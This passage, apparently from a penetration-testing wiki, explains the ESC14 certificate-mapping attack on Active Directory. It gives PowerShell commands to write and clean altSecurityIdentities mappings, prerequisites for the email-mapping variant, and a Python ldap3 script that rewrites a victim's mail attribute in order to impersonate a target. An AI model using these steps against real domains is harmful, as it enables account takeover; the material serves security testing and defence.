 Finally, the crafted string can be added to `altSecurityIdentities` target's attribute with the [Add-AltSecIDMapping](https://github.com/JonasBK/Powershell/blob/master/Add-AltSecIDMapping.ps1) script (PowerShell).

```powershell
Add-AltSecIDMapping -DistinguishedName $TARGET_DN -MappingString $MAPPING_STRING
Get-AltSecIDMapping -DistinguishedName $TARGET_DN
```

The certificate requested at the begining can then be used with [Pass-the-Certificate](../kerberos/pass-the-certificate.md) to obtain a TGT and authenticate as the target.

The certificate mapping written can be cleaned with [Remove-AltSecIDMapping](https://github.com/JonasBK/Powershell/blob/master/Remove-AltSecIDMapping.ps1) (PowerShell).

```powershell
Remove-AltSecIDMapping -DistinguishedName $TARGET_DN -MappingString $MAPPING_STRING
```

:::


#### (ESC14 B) Target with X509RFC822 (email)

The target has an explicit weak mapping of type `X509RFC822`. The attacker can modify the `mail` attribute of the victim so that it matches the `X509RFC822` mapping of the target. It is then possible to enroll on the certificate model with the victim, and use the certificate obtained to authenticate as the target.

For this attack, a few additional prerequisites are necessary:

::: warning
> [!WARNING]
> * The target is a user account
> * The target already has at least one `X509RFC822` mapping in `altSecurityIdentities`
> * The attacker has write access to the `mail` attribute of the victim
> * The certificate template shows `CT_FLAG_NO_SECURITY_EXTENSION` in `msPKI-Enrollment-Flag` and shows the attribute `CT_FLAG_SUBJECT_ALT_REQUIRE_EMAIL` in `msPKI-Certificate-Name-Flag`
> * For PKINIT, `StrongCertificateBindingEnforcement` is set to `0` or `1`
> * For Schannel, `CertificateMappingMethods` indicates `0x8` and `StrongCertificateBindingEnforcement` is set to `0` or `1`
:::

::: tabs

=== UNIX-like

From UNIX-like systems, the `mail` attribute of the victim can be overwritten to match the `X509RFC822` mapping of the target using the following python script.

```python
import ldap3

server = ldap3.Server('<DC_HOST>')
victim_dn = "<VICTIM_DN>"
attacker_username = "<DOMAIN>\\<ATTACKER_SAMACCOUTNNAME>"
attacker_password = "<ATTACKER_PASSWORD>"

conn = ldap3.Connection(
    server=server,
    user=attacker_username,
    password=attacker_password,
    authentication=ldap3.NTLM
)
conn.bind()

conn.modify(
    victim_dn,
    {'mail':[(ldap3.MODIFY_REPLACE, '<TARGET_EMAIL>')]}
)
```